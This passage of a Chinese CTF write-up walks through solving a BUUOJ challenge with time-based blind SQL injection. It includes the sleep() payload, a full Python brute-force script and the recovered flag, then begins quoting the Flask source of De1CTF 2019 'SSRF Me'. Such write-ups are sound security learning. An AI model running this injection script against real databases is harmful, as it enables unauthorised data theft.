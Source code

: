 直接用sleep盲注，套路这样子：如果猜对了就造成一秒延迟

```sql
sleep((select(flag)from(flag)where(flag)like('f%'))like('f%'))
```

于是可以编写Python脚本了（老套路。

```python
import requests

def timeblind(url):
    flag = 'flag{'
    while True:
        find = False
        for i in '0123456789abcdefghijklmnopqrstuvwxyz{}_': #字母表
            #盲注语句
            data = {'id':"sleep((select(flag)from(flag)where(flag)like('f%'))like('{i}%'))".format(i=flag+i)}
            print(data)
            try:
                requests.post(url=url,data=data,timeout=1)
            except:
                flag=flag+i
                print('[*]%s'%flag)
                find = True
                break
        if i=='}':
            break
        #防止找错
        if not find:
            flag = flag[0:-1]
    print('[+]%s'%flag)

url = 'http://d53059c8-8795-4474-bdea-e66790292e91.node3.buuoj.cn/index.php'
timeblind(url)
```

`flag{5957e413_b9a1_439f_8a23_28a749be15dc}`

## [De1CTF 2019]SSRF Me

Hint: flag is in ./flag.txt

SSRF，以服务器做跳板访问敏感文件。首先题目给出了源码

```python
#初始化语句

app = Flask(__name__)
secert_key = os.urandom(16)

class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
```